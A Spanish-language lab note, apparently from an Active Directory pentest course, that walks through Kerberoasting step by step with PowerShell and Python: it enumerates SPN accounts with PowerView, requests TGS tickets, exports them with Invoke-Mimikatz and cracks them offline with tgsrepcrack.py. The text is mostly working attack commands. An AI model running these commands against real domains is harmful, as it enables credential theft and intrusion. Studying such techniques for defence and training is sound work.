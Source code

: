 
Se trata de un ataque de post-explotation que intenta obtener un hash de contraseña de una cuenta de Active Directory que tenga el "Service Principal Name" (SPN). 

Tareas a realizar:

1. Identificar cuentas con el SPN activo.
2. Pedir TGS tickets para el SPN usando Kerberos.
3. Crackear la password del TGS ticket usando Tgsrepack.

Ejemplo práctico:

```PowerShell
cd C:\tools
. .\PowerView.ps1

#Conseguir usuarios con SPN
Get-NetUser | Where-Object {$.servicePrincipalName} | fl
```

Se puede observar como el usuario stephen nos aparece en la búsqueda:

![[Pasted image 20250331090212.png]]

El siguiente paso sería hacer una petición por un TGS ticket a Kerberos.

```PowerShell
#Conseguir los SPN lanzados:
setspn -T reserach -Q */*

#Pasar a la solicitud del TGS
Add-Type -AssemblyName System.IdentityModel
#Importante sustituir el valor entre comillas por el ticket a solicitar
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "ops/researh.security.local:1434"
```

![[Pasted image 20250331090857.png]]

```powershell
#Listar los tickets de Kerberos y exportarlos
. .\Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"kerberos::list /export"'

python.exe .\kerberoast-Python3\tgsrepcrack.py .\10k-worst-pass.txt .\1-40a1000-student@ops~research.security.local~1424-RESEARCH.SECURITY.LOCAL.kirbi
```

![[Pasted image 20250331091333.png]]



